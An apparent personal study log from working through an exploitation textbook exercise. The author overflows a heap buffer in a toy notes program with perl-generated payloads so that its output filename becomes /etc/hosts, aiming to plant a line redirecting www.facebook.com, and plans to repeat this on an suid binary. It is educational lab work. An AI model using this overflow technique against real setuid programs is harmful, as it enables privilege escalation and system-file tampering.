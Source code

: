 ```
./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x73')"
[DEBUG] buffer   @ 0x5626d4370010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] datafile @ 0x5626d4370080: '/tmp/notes'
[!!] Fatal Error in main() while opening file: No such file or directory
```
Now the filename is intact but it thinks the file doesn't exist??? (I checked, the file does exist.) Let's look at it with gdb.
So, with 73 A's, we have A's and then a null terminator up until 0x...80 (address of datafile string), and /tmp/notes at 0x...80. Not clear why it thinks the file doesn't exist, because if I give it 72 A's, it writes to the file fine, and neither of those overwrite the datafile string. Note: I still get free/heap errors with 72 A's and a successful write. When I give it 74 A's, the first character of the datafile string is overwritten with a null terminator. So I'll have to figure out where my math doesn't add up...

Counting in memory how many chars are occupied by my pre-A's string, I get 38. So perhaps the issue is with using wc to get the string length.
```
rad@VPRSTN:~/codes/artofexp$ echo "sketchy.ip.address www.facebook.com # " | wc -c -
39 -
rad@VPRSTN:~/codes/artofexp$ perl -e 'print "sketchy.ip.address www.facebook.com # "' | wc -c -
38 -
```
...Well then. Does echo add a newline? `man echo` Yes, yes it does. I would have to use `echo -n`. Gonna stick with perl from now on, since I have to use it for generating A's anyway.
Back to business:
```
./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/etc/hosts"')"
[DEBUG] buffer   @ 0x5586037e6010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/etc/hosts'
[DEBUG] datafile @ 0x5586037e6080: '/etc/hosts'
[!!] Fatal Error in main() while opening file: Permission denied
```
No surprise, permission denied. For proof of concept, we'll use sudo real quick, but then we'll try this on an suid binary.
...Hmm. It claims to have saved the note to /etc/hosts, but the hosts file is unchanged. Let's see if we can write to a less special file, /tmp/hosts.
```
touch /tmp/hosts
./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/tmp/hosts"')"
[DEBUG] buffer   @ 0x556b53e02010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hosts'
[DEBUG] datafile @ 0x556b53e02080: '/tmp/hosts'
[!!] Fatal Error in main() while opening file: Permission denied
```
Whyyyy. My user owns a.out and /tmp/hosts and has write access to /tmp/hosts. Let's try overwriting the filename with the original filename, /tmp/notes. ...No dice. Nothing added to the file. Does the write not actually happen when the write call is made, and the heap/free errors somehow prevent the write? ???

Let's go back to the source code. We have
```
strcpy(buffer, argv[1]);
...
strncat(buffer, \n, 1);
```
Aha, maybe newline at the end of the filename is a problem. ...Except the program doesn't get any errors back from open, write, or close. Ohoho. BUT. Check this out.
```
ls -al /tmp
total 60
drwxrwxrwt 10 root root 4096 Sep 16 20:17 .
drwxr-xr-x 22 root root 4096 Aug 21 19:57 ..
-rw-r--r--  1 rad  rad     0 Sep 16 20:01 hosts
-rw-------  1 root root  123 Sep 16 20:02 hosts?
-rw-------  1 rad  rad     1 Sep 16 20:18 notes
```